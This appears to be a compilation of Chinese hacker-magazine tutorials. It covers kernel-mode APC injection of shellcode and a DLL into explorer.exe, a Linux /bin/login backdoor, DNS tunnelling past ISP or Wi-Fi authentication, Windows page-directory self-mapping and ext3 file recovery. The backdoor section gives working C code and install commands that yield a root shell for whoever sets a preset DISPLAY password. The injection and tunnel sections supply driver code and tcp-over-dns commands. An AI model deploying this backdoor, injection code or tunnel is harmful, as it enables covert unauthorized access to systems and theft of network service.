

```

代码总的来说还是很简单的，最主要的就是填写 SRB。图 2 是对硬盘的第 2 个扇区全部写 1 的测试结果。
图 2

### 内核中不借助用户层程序注入 ShellCode

文/图 和尚洗头用飘柔

本文演示通过 Windows 的 APC 机制对用户层的程序注入 DLL。通过 WRK 可知，APC 的数据结构如下：

```c
typedef struct _KAPC_STATE {
    LIST_ENTRY ApcListHead[2];      //两个 APC 队列
    struct _KPROCESS *Process;      //当前进程
    BOOLEAN KernelApcInProgress;    //内核 APC 正在执行的标志
    BOOLEAN KernelApcPending;       //有内核 APC 正在等待执行
    BOOLEAN UserApcPending;         //有用户 APC 正在等待执行
} KAPC_STATE, *PKAPC_STATE, *PRKAPC_STATE;
```

APC 是基于线程的异步过程调用，每个线程都有一个与之对应的 _KAPC_STATE 结构，当前线程会不断地根据此结构中的 KernelApcPending 和 UserApcPending 标志从 ApcListHead 中取 APC 函数来执行，而我们要做的就是给要注入 ShellCode 的进程中的某个线程的 ApcListHead 中增加一个自己定义的 APC 函数，来实现载入一个 DLL。

#### 代码工作过程

```cpp
extern "C" NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject, PUNICODE_STRING pRegistryPath)
{
    DWORD dwKernel32Adr, LoadLibraryRVA, dwTarPid;
    WORD ServiceId;
    UNICODE_STRING FileImage = {0};
    PDLLINFO PDll = (PDLLINFO)ExAllocatePool(NonPagedPool, ...);

    //通过解析 ntdll.dll 获取 ZwQueryVirtualMemory 在 SSDT 表中的 ID 号
    RtlInitUnicodeString(&FileImage, L"\\SystemRoot\\System32\\ntdll.dll");
    ServiceId = GetImageFileCallIndex(&FileImage, "ZwQueryVirtualMemory");

    if (0xffff != ServiceId) {
        RZwQueryVirtualMemory = ...;
    }

    //获取 explorer.exe 进程的 PID
    dwTarPid = ProceNameToPid(L"explorer.exe");
    if (dwTarPid) {
        //通过解析 kernel32.dll，获取 LoadLibraryW 在内存中的 RVA
        RtlInitUnicodeString(&FileImage, L"\\SystemRoot\\System32\\kernel32.dll");
        LoadLibraryRVA = GetImageFileCallAddr(&FileImage, "LoadLibraryW");

        //枚举 explorer.exe 的模块获取 kernel32 的基址
        dwKernel32Adr = EumnProcessModuleByVirtualMemory(dwTarPid, PDll, L"kernel32.dll");

        if (dwKernel32Adr != NULL && LoadLibraryRVA != 0xffff) {
            LoadLibraryWAddr = LoadLibraryRVA + dwKernel32Adr;
            ...
            ApcIngectDll(L"DLL.dll", (PKPROCESS)TarProcess, (void*)(LoadLibraryRVA + ...));
        }
    }

    ExFreePool(PDll);
    return STATUS_SUCCESS;
}
```

图 1

代码工作过程如图 1 所示。图中 11 至 17 行是通过解析 NTDLL 获取 ZwQueryVirtualMemory 在 SSDT 中的 ID 号，然后通过 SSDT 表定位到此函数。第 20 行是获取 explorer.exe 的 PID，ProceNameToPid 内部通过调用 ZwQuerySystemInformation 枚举系统中所有进程，通过进程名字获取指定 PID。通过给目标进程插入一个 APC 函数来实现 Load 进一个 DLL，就必须要先定位到 LoadLibraryW。进程中某个函数的地址的计算方法为：函数所在模块基址 + 函数在模块中的 RVA = 实际地址，24 至 25 行是通过解析 kernel32.dll 获取 LoadLibraryW 的 RVA，第 28 行是获取 kernel32.dll 在进程中的基址，EumnProcessModuleByVirtualMemory 内部通过调用 ZwQueryVirtualMemory 枚举所有模块获取 kernel32.dll 的基址，前边获取的 RVA 加上此基址，就是 LoadLibraryW 在指定进程中的实际地址了。第 43 行把 LoadLibraryW 实际地址与 DLL 的路径传给 ApcIngectDll，实现载入指定的 DLL。

### ApcIngectDll 的实现

```c
KeStackAttachProcess(pTargetProcess, &ApcState);

status = ZwAllocateVirtualMemory(NtCurrentProcess(), &pShellCode, 0, &dwShellCodeLen, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)) {
    return;
}

status = ZwAllocateVirtualMemory(NtCurrentProcess(), (PVOID*)(&wcsNameDll), 0, &dwNameLen, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)) {
    ZwFreeVirtualMemory(NtCurrentProcess(), (PVOID*)(&pShellCode), &dwShellCodeLen, MEM_RELEASE);
    return;
}

memcpy(pShellCode, ApcLoadDll, dwShellCodeLen);
memcpy(wcsNameDll, DllFullPath, dwNameLen);
*((int*)((char*)pShellCode + 1)) = (int)LoadLibraryWAddr;
*((int*)((char*)pShellCode + 6)) = (int)wcsNameDll;

PETHREAD txtd;
NTSTATUS st = STATUS_UNSUCCESSFUL;
for (ULONG i = 8; i <= 65536; i = i + 4) {
    st = PsLookupThreadByThreadId(i, &txtd);
    if (NT_SUCCESS(st)) {
        if (IoThreadToProcess(txtd) == (PEPROCESS)pTargetProcess) {
            PKAPC pApc = NULL;
            pApc = (PKAPC)ExAllocatePool(NonPagedPool, sizeof(KAPC));
            if (!pApc) {
                DbgPrint("Failed to allocate memory for the APC structure");
                return;
            }
            KeInitializeApc(...);
            if (!KeInsertQueueApc(pApc, 0, NULL, 0)) {
                ZwFreeVirtualMemory(...);
            }
        }
    }
}



```

图 2

图 2 中代码的第 84 至 100 行通过 KeStackAttachProcess 挂靠到目标进程中，并通过 ZwAllocateVirtualMemory 在目标进程中为我们的 ShellCode 分配内存，拷贝 ShellCode 代码到目标进程空间。101 至 102 行对 ShellCode 代码进行修正，ShellCode 修正的办法如图 3 所示。105 行至结尾是通过 PsLookupThreadByThreadId 与 IoThreadToProcess 循环枚举所有线程，给每个线程都插入此 APC。为什么要给所有的线程都插入 APC 呢？KAPC_STATE 的成员 UserApcPending 决定是否有等待执行的 APC 函数，如果我们插入的线程的 UserApcPending 为 FALSE 的时候，我们的 ShellCode 就有可能永远得不到执行的机会，所以为了保险起见，给所有线程都插入此 APC，成功率就大大提高了。最后通过 KeInitializeApc 把 ShellCode 初始化到 KAPC_STATE 结构中，通过 KeInsertQueueApc 实现插入 APC，接下来就是等待我们的 ShellCode 执行了。
图 3

最后，将 DLL.dll 放到 explorer.exe 目录下，用驱动加载器加载源码中生成的驱动，即可实现启动一个 notepad.exe。

### Linux 后门技术研究：从最简单 login 后门说起

文/图 blackcool

关于后门相信大家都很熟悉了，渗透测试中也经常用到。我们接触比较多的基本都是 Windows 下的木马后门，对 Linux 下后门技术的了解还有一些不足，希望通过本系列教程能让大家对 Linux 下后门开发有更加深入的认识。

为什么要学习 Linux 下的后门技术呢？在渗透测试中你会发现，重要系统的架构中，Windows 操作系统的比例越来越少，类 Linux/Unix 系统的比例逐渐增多，且 Linux 下的杀毒软件还不完善，加之管理员对 Linux 操作不够娴熟，基本可以不用做免杀就可对目标主机进行远程控制。

本文从用户及后门入手讲解，了解后门技术原理，之后再介绍内核模块（LKM）级 rootkit 开发技术，让大家对 Linux 系统及 Linux 下后门技术有一个新的认识。当然，你应该对 Linux 的基本操作很熟练，并有一定的 C 语言基础。

Linux 下后门一般是通过修改系统配置文件或安装第三方后门工具来实现的，具有隐蔽性强、绕过系统日志、不易被管理员发现等特点。常用的后门技术有很多，如创建超级用户、设置 SUID Shell、修改系统服务程序、共享库文件、可装载内核模块（LKM）等。

这里分享下 Ubuntu 下最简单的 login 后门的开发。作为最简单的 login 后门，原理也自然很简单，其实就是借助于 telnet 服务来实现的。先安装 telnet 服务（默认情况下 Ubuntu 没有安装 telnet 服务），使用命令“sudo apt-get install telnetd”，安装过程中需要输入密码，然后点击两次 Y 键即可顺利安装，如图 1 所示。

图1

安装完成后，即可使用 telnet 远程连接该主机了。那么 telnet 服务的用户登录校验是由谁来完成的呢？是 bin 目录下的 login 程序。接下来要做的是将 /bin 目录下的 login 文件剪切到 /sbin 目录下并改名为 logins，之后我们打造一个后门程序复制到 /bin 下并命名为 login。后门程序的功能是：当用户远程登录时判断 DISPLAY 变量是否为我们预设的密码，如果是就启动 /bin/bash 来获得一个 shell；如果 DISPLAY 不是我们预设的密码，就执行 /sbin/logins 程序实现正常登录。

后门程序原理很简单，主要代码如下：

```c
#define PASSWORD "passWORD"
#define _PATH_LOGIN "/sbin/logins"
```

首先，定义预设密码和真正的 login 路径，密码可以设置，路径则是我们将真正 login 程序备份到的地方。

```c
char *display = getenv("DISPLAY");
```

然后获取 DISPLAY 环境变量。

```c
if ( display == NULL ) {
    execve(_PATH_LOGIN, argv, envp);
    perror(_PATH_LOGIN);
    exit(1);
}
```

当环境变量 DISPLAY 为空时，执行正常的 login 验证。

```c
if (!strcmp(display,PASSWORD)) {
    system("/bin/bash");
    exit(1);
}
```

当环境变量 DISPLAY 为预设密码时，执行 /bin/bash 获得 rootshell。代码写好后使用 gcc 编译即可，剩下的就是安装。很简单，首先执行命令“cp /bin/login /sbin/logins”备份 login 文件，然后将我们编译好的 login 文件复制为 /bin/login 就大功告成了。

使用起来也是很简单的，先设置 DISPLAY 环境变量，使用命令“export DISPLAY=passWORD”，然后进行 telnet 连接目标主机，即可直接获得 rootshell，如图2所示。

图2

完整代码详见附件 login.c。最简单的 login 后门就到这里，有什么问题欢迎大家和我交流。

### Windows 中的页目录自映射方案

文/图 王晓松

在潘爱民老师的《Windows内核原理与实现》一书中，专门有一段是介绍页目录自映射方案的。小生愚笨，对于这段内容经过反复揣摩，才完全豁然开朗。下面我将尝试着以自己的语言对这段内容进行讲解。

#### 基础知识

我们知道，为了映射整个进程 4G 空间，需要 4M（2^32/2^10）大小的页表空间，进而为了映射这 4M 的页表空间，需要 4K（2^22/2^10）大小的页目录空间。换句话说，为了映射每个进程的 4G 空间，共需要 (4M+4K) 的页目录、页表空间。在 Windows 实现中，并没有单独出现 (4M+4K) 大小的空间，原因在于 Windows 将这 4M+4K 大小的页目录、页表页面也作为 4G 空间的一部分进行映射。Windows 将 4M 大小的页表页映射到 4G 的进程空间，而将 4K 大小的页目录页映射到页表的空间。每个页表（目录）页有 1024 个页表项 PTE，如图1所示。

图1 页目录页单独（左）与页目录页作为一个页表页（右）

首先看一个问题，如果知道 PTE 的地址，能否推算出其所指向页面的虚拟地址呢？我们知道，从地址 0xC0000000 开始的每个 PTE 对应着虚拟地址空间 4K 大小的地址范围，并且顺序对应。举个例子，页表的开始地址为 0xC0000000，那么 0xC0000000 PTE 地址对应的虚拟地址为 0 的页面；同样的道理，0xC0000004 PTE 地址对应的虚拟地址为 0x00001000 的页面。设某一 PTE 的地址为 x，则其对应的虚拟地址为（(x-0xC0000000)/4）*4K，如图2所示。

反之亦成立，一个虚拟地址为 Y 的地址，则对应着 0xC0000000 PTE 地址为 0xC0000000+[x/4K]*4，其中 [] 表示向下取整。注意这里最关键的是，每个 PTE 项对应的虚拟地址是顺序对应，依次而下。

```text
((0xC0000004-0xC0000000)/4)*4K+0x00000000=0x00001000
```

图2 由 PTE 地址推导所指页面的虚拟地址

#### 两个条件与四个结论

有了以上的基础，先看看我们有什么先决条件。

- 条件①：页目录页同时作为一个页表页放于页表空间中；
- 条件②：页表页的 4M 空间起始地址为 0xC0000000。

好了，有这两个条件，我们可以得到以下结论：

- 结论①：PDE（页目录表项）与 PTE（页表项）结构应该相同；
- 结论②：页目录页的虚拟地址必须为 0xC0300000；
- 结论③：页目录页中对应该页面的页目录项地址为 0xC0300C00，并且其内容指向该页目录页的地址（即所谓的页目录自映射）；
- 结论④：从一个 PTE 地址推导出对应页表的虚拟地址，只用简单地将 PTE 地址左移 10 位。

我想说明的是，基于以上两个基本条件便可以得到上述四个结论，下面我们看看四个结论是如何得到的。

## 1）PDE（页目录表项）与 PTE（页表项）结构应该相同

这个结论非常直观，因为页目录页本身要作为一个页表页置于页表空间中，它同时也就必须承载着页表页相同的功能，因此 PDE（页目录表项）与 PTE（页表项）结构应该相同是必然的结论。

## 2）页目录页的虚拟地址必须为 0xC0300000

页目录页的起始虚拟地址是 0xC0300000，这个地址可不是随便定的，实际上与将页目录作为页表的一部分有很大的关系。原因如下：现在我们的条件是将 1024 个页表页放于由 0xC0000000 开始的地址，每个页表页的大小为 4K，共占用 4M 的空间，那么我们将这 1024 个页表页哪个作为页目录呢？我说页目录这个地址是固定的，为什么呢？设该页目录的虚拟地址是 X，那么这个地址的第一项应该对应着第一个页表页的地址，即 0xC0000000。由前面基本知识的公式，可以得到 ((X-0xC0000000)/4)*4K=0xC0000000，我们得到 X 应该为 0xC0300000。所以当我们设定页表的起始地址为 0xC0000000 时，那么对应的页目录地址也就固定了，为 0xC0300000。请注意，导致这样的结果，主要原因是将页目录页面放于页表页面的空间中，为了兼容，必须将页目录页面也作为一个页表页面来看待。

## 3）页目录自映射

对于页目录页面，其每个 PTE 项对应的页表页的虚拟地址是什么呢？Windows 将页目录页起始地址设定为 0xC0300000，则地址为 X 的 PTE 项对应的页表页的虚拟地址为：

((X-0xC0300000)/4)*4K+0xC0000000。

其中，((X-0xC0300000)/4) 表示位于页目录表中第几项，因为每一项对应着 4 个字节；乘以 4K，是因为每个页表的长度为 4K；加上 0xC0000000，是因为页表的起始地址是 0xC0000000。如图3所示。

((0xC0300004-0xC0300000)/4)*4K+0xC0000000=0xC0001000

图3 页目录偏移推导页表的虚拟地址

那么，将地址为 0xC0300000 的页面作为页表时，其对应着页目录项中的哪一项呢？很简单，由图3中的逆向推导可得（（0xC0300000-0xC0000000）/4K）*4=0xC00，所以虚拟地址（0xC0300000+0xC00）=0xC0300C00，这个 PTE 中的内容需要指向页目录自身这个页面。

## 4）从一个 PTE 地址推导出对应页表的虚拟地址只用简单地将 PTE 地址左移10位

如何根据一个 PTE 项的地址，计算出对应页表的地址。我们设该 PTE 项的地址为 X，那么根据前面的公式可以得到对应页表的地址为：

((X-0xC0300000)/4)*4K+0xC0000000=X*1024-0xC0300000*1024+0xC0000000=X*1024=X<<10

所以，我们会看到 WRK 中有定义：

```c
#define MiGetVirtualAddressMappedByPte(PTE) ((PVOID) ((ULONG) (PTE) << 10))
```

#### 小结

为什么会有页目录自映射呢？实际上好像并不像潘老师书中说的需要两个条件：①PDE 和 PTE 的结构相同；②页目录的页目录项指向自身。事情的根源在于：①将页目录页作为一个页表页放在 0xC0000000—0xC0400000 的空间里；②页表空间的起始地址是 0xC0000000。好像一切都是注定的，条件①②成立，那么就决定了结论①～④。

（完）

### DNS 隧道技术绕过上网认证限制

文/图 Conqu3r

#### DNS 隧道实现原理

DNS 隧道技术的实现：主要通过对 DNS 查询机制的特殊性来利用的一种技术。DNS 查询是一种递归查询机制，如果本地没有记录，就会对其它服务器发起请求查询结果。在需要认证的 ISP 或者防火墙发现过滤规则的请求时，会将查询结果的 TCP 或者 UDP 包返回，结果内容进行丢弃，保存返回域名的查询 IP 地址。查询方式如图1所示。

图1

也就是说，如果我们的请求数据包中的数据不含过滤规则时，有限制的 ISP 或者防火墙则不会进行丢包处理。所以，我们在发起请求时，将请求数据包内容通过标准的 DNS 协议进行加密，标记解析请求的 DNS 地址，则有限制的 ISP 在解析客户端发起的域名请求时，无法识别地址，而去指定的 DNS 服务器上进行请求查询。我们在指定的 DNS 服务器上进行数据包解密，再将查询内容返回，此时有限制的 ISP 或者防火墙会再次检测内容是否为非认证状态，如果是非认证状态，则将查询结果内容进行丢包处理。所以，在特定的 DNS 服务器上，我们需要将结果进行标准 DNS 协议加密返回客户端，此时 ISP 无法识别结果，而直接返回客户端进行解密处理。这样我们就完成了一次 DNS 隧道请求，完全绕过了 ISP 服务商的认证。加密传输方式数据包如图2所示。

图2

#### 建立 DNS 隧道的环境需求

- 可以连接有限制的 ISP 服务商，比如连接 CMCC 的无线信号；
- 需要一台高速的性能较高的安装好 Java 的服务器（也可以随便一台就行了，目的是为了提高查询的延迟速度）；
- Tcp-over-dns 工具，用来提供客户端、服务器通信加解密操作；
- 客户端全局代理工具 Proxifier（非必需条件，可以用这个让本机所有程序都代理上网）。

#### 实现步骤

- 1）设置自己的 DNS 服务器域名

方法 a：如果有直接修改 DNS 记录的权限，可以在 DNS 记录中加入：

```text
;set up the DNS tunnel
$ORIGIN dnstunnel.analogbit.com.
@ IN NS ns.analogbit.com.
ns IN A <server ip>
```

方法 b：设置两个域名记录，其中一个 NS 记录，一个 A 记录。

| 主机名 | 记录类型 | 记录值 |
|---|---|---|
| Dnstun.paxmac.org | NS | mydns.paxmac.org |
| Mydns.paxmac.org | A | xx.xx.xx.xx（服务器 IP） |

方法 c：直接修改购买域名时的 DNS 解析记录。

| 主机名 | 记录类型 | 记录值 |
|---|---|---|
| Dnstun | NS | ns.paxmac.org |
| Ns | A | xx.xx.xx.xx（服务器 IP） |

- 2）设置服务器

```text
下载 tcp-over-dns 软件，执行命令：
Java -jar tcp-over-dns-server.jar --domain dnstun.paxmac.org --forward-port 22
```

（为了服务器安全，端口应设置在 1024 以下），必须包含 --forward-port 参数。

- 3）设置客户端

```text
在需要上网的主机上下载 tcp-over-dns 软件，执行命令：
Java -jar tcp-over-dns-client.jar --domain dnstun.paxmac.org --listen-port 8888 --interval 100




```

（如果服务器性能较高，可以设置最低数值到 5 或者 10）。

- 4）设置上网

按图3所示进行设置，即可实现上网。

图3

或者直接在全局代理服务器中设置全局代理。这样就可以上网了，不过速度不会很快，毕竟要进行加解密。

### Linux 下基于 ext3 文件系统的数据恢复技术

文/图 倪程 王中杉

在黑防 2009 年第 8 期中，笔者曾详细分析过 ext2/3 文件系统结构，并通过 WinHex 工具举例分析了文件在 ext3 系统中的组织形式，及文件删除前后各数据结构的变化。如文件被删除后，inode 表项中的 15 个块指针已经清零，即存放文件内容的指针（inode 对应的块指针）全部丢失，虽然文件内容依旧存放在未分配的数据块中，但此时无法再用按图索骥的方式去获取文件内容。

本文将向读者介绍两种可行的数据恢复技术，分别为基于日志的数据恢复技术和基于一级间接块指针的数据恢复模式，并重点介绍前者。

#### 开发工具及参考文献

- **WinHex** 软件。通过 WinHex 软件分析 ExtX 各个块组的结构，包括超级块、组描述符、索引节点位图、索引节点表等。
- **Ext3grep** 工具：ext3 文件系统已删除文件的调查及恢复工具。
- **frib** 工具：给定文件的起始块号或一个间接块号，尝试从此块号开始恢复整个文件内容。

读者至少需要一本讲述 ExtX 内部结构原理的相关书籍，可以参考《深入理解 Linux 内核》—Ext2 和 Ext3 文件系统章节以及 Dave Poirier 的专著《The Second Extended File System Internal Layout》。

## EXT3 系统中与数据恢复相关的几个结构说明

- 1. **超级块（super block）**  
  超级块位于引导扇区后，引导扇区占用 0～1 号扇区，分区第一个块组的超级块总是从第 3 个扇区开始，并占用 2 个扇区。其结构体中主要成员有：索引节点总数、块大小、每组块数和每块组中索引节点数等。
- 2. **组描述符（group descriptor）**  
  组描述符表由 ExtX 分区中所有块组的描述信息组成，每个组描述符信息占用 32 字节。它紧邻超级块后面的块，即若超级块位于 0 号块中，则组描述符表起始于 1 号块；若块大小为 4,096 个字节，则组描述符与超级块间就会有 4 个扇区的空间区域（注：这类空间区域都可用来隐藏一些关键信息，反取证技术中常用到），因为 0 号块占用 0～7 号扇区，而组描述符必须起始于超级块所在的块后面的块，故组描述符表就必须起始于 1 号块，即 8 号扇区。组描述符表结构体包含：块组中首个索引节点表块的块号（bg_inode_table）、索引节点总数等。
- 3. **文件目录区（Directories）**  
  文件目录区关联了文件名和对应的索引节点号，通过 ext3_dir_entry 结构体形式表现。此结构体因包含无法确定长度的文件名，故结构体长度可变，但总为 4 的倍数。目录项结构体如图1所示。

| 类型 | 字段 | 描述 |
|---|---|---|
| __u32 | inode | 索引节点号 |
| __u16 | rec_len | 目录项长度 |
| __u8 | name_len | 文件名长度 |
| __u8 | file_type | 文件类型 |
| char [EXT2_NAME_LEN] | name | 文件名 |

图1 目录结构体

## 4. 索引节点（inodes）

索引节点表中存放了每个组中的所有节点信息，包括文件的大小、类型、访问权限、文件存放的块号及块指针等，每个索引节点占 128 字节。索引节点表中包含 15 个数据块指针，其中前 12 个数据块号指针为直接块指针，即直接保存着存放数据内容的对应块号，后 3 个指针为间接指针。假设一个块号大小为 4096 字节，则 12 个块号只能存放 48K 大小的文件，当文件超过 48K 时，则需要采用间接指针重定向。一级间接块号（Indirect block）大小为 4096 字节，即可存放 1024 个 4 字节指针，可表示 4MB 大小的文件；依次类推，当文件超过 4MB+48K 时，二级间接块号（Double indirect block）将被引用，这里不再介绍，读者可参考笔者在黑防 2009 年 08 期写的文章。

## 数据恢复的几个公式

**根目录如何定位。** 根目录区紧邻索引节点表，即索引节点表最后一块号若为 N，则 N+1 块即为根目录区的起始块号。（这里假设每块组中索引节点数为 N，已删除文件对应的索引节点号为 M，0 号块组的首个索引节点块号为 B），则根目录区的起始块号 SP = N * 128 / 4096 + B。

**已知索引节点如何定位索引节点表项。** 这个问题至关重要，因为只有定位到了索引节点表项，才能读取到存放在索引节点表项中的 15 个数据块指针，然后才能准确定位到文件内容对应的扇区数。

- 1. 已删除文件索引节点位于的块组号 Z = M / N；
- 2. 块组号 Z 相对 0 号块组描述符偏移 Offset = Z * 32 + 1，这里也可以先求出其相对于 0 块组描述符扇区位置的扇区数：[Z * 32 / 512] + 1，然后再求出相对于此扇区数的偏移位置：Z * 32 mod 512。
- 3. 相对于 Z 的偏移扇区数：（M mod N）* 128 / 512。

汇总上面的分解，可得出如下公式：即已删除文件索引节点数 M 转化为相对扇区数 S = ((M/N) * 32 + 1) * 8 + (M%N) * 128 / 512 + 1（设块号大小为 4096 字节）。

#### 基于日志模式的数据恢复技术

Ext3 在兼容 Ext2 主要功能的前提下，增加了一个日志文件功能，其主要思想是对文件系统进行的任何高级修改都分两步进行。首先，把待写块的一个副本存放在日志中；其次，当发往日志的 I/O 数据传送完成时（即数据提交到日志），块就写入文件系统。当发往文件系统的 I/O 数据传送终止时（即数据提交给文件系统），日志中的块副本就被丢弃。

假设已删除文件对应的索引节点号为 309631（注：文件删除后，其父目录结构表项中存放的此文件表项内容并没有丢失，故索引节点号是保留的）。这里我们充分运用工具 ext3grep，从 http://code.google.com/p/ext3grep/downloads/list 地址可获取到此资源，下载后在任意目下载并安装此工具即可使用。通过如下命令可直接获取到索引节点表项内容，命令为：`ext3grep $IMAGE --print --inode N`。日志通常对应的索引节点号为 8，我们可以通过上述命令取到结果，如图 2 所示。
图 2 索引节点 8 对应的索引表项内容

由图 2 可知，文件索引节点表项中的 15 个数据块指针内容全部可见。其中，一级间接索引的块号紧邻第 12 号块号为 2069。此时，我们可以尝试在日志文件系统中寻找一个 old 拷贝。首先，我们寻找包含此节点的系统块号，然后搜索所有与块号 14057484 相关的日志描述符（journal descriptors），如图 3 所示。
图 3 与块号 14057484 相关的日志描述符列表

图 3 表示上述序列号中对应的块号中都有一份块号 **14057484** 的备份。最大的序列号在底部，且为最近修改的日志，故块号 **14057811** 可推断为与当前删除文件的内容最相似。为了找到最后一个未删除的拷贝，我们应该从最底部的块号开始依次向上搜索，命令为：`ext3grep $IMAGE --print --block N | grep -A15 'Inode 14057811'`。依次搜索，直到搜索到图 4 所示的内容为止。
图 4 日志文件系统中索引块号 10695 的索引节点表项内容

好了，此时我们得到对应的块号为 **6005136**，即可通过以下命令 dd 拷贝此块号。

```bash
$ dd if=$IMAGE bs=4096 count=1 skip=6005136 of=block.6005136
1+0 records in
1+0 records out
4096 bytes (4.1 kB) copied, 0.0166104 seconds, 247 kB/s
```

然后再编辑文件，去除末尾为 0 的字节或者直接拷贝文件大小的内容。

```bash
$ dd if=block.6005136 bs=1 count=40 of=start_azureus
40+0 records in
40+0 records out
40 bytes (40 B) copied, 0.000105397 seconds, 380 kB/s
```

#### 基于间接索引节点的数据恢复技术

基于间接索引节点的数据恢复思路主要基于以下两个事实：

- 1. 间接块号相对于文件的起始位置是可预测的，即首个间接块为文件起始位置的第 13 个块号；若文件存在一个可靠的签名如文件类型等，定位首个间接块将十分简单。
- 2. 间接块中的第一个块指针通常都指向文件系统的下一个数据块，若间接块号为 1000，则其指向的第一个块号内容为 1001，这就留下了一个启发式搜索的可能性：寻找块号对应的 4 字节内容即为下一个块号的地址，即 `*addr(A) = A+1`。

结合上面的说明，Hal Pomeranz 开发了两个小工具，分别为 frib 和 sigfind。Frib 的主要作用是给定文件的首个块号或者一个间接块号，可尝试从此块号开始恢复整个文件内容；sigfind 工具用来根据“文件签名”以定位关联此签名的块号，即通过给定一个签名值搜索相关联的块号，如图 5 所示。

```bash
# sigfind -b 4096 1F8B0800 ext3-example.img

Block size: 4096  Offset: 0  Signature: 1F8B0800
Block: 251904 (-)
Block: 252096 (+192)
Block: 252293 (+197)
Block: 252599 (+306)
…
```

图 5 利用 sigfind 工具搜索 GZIP 文件关联的块号

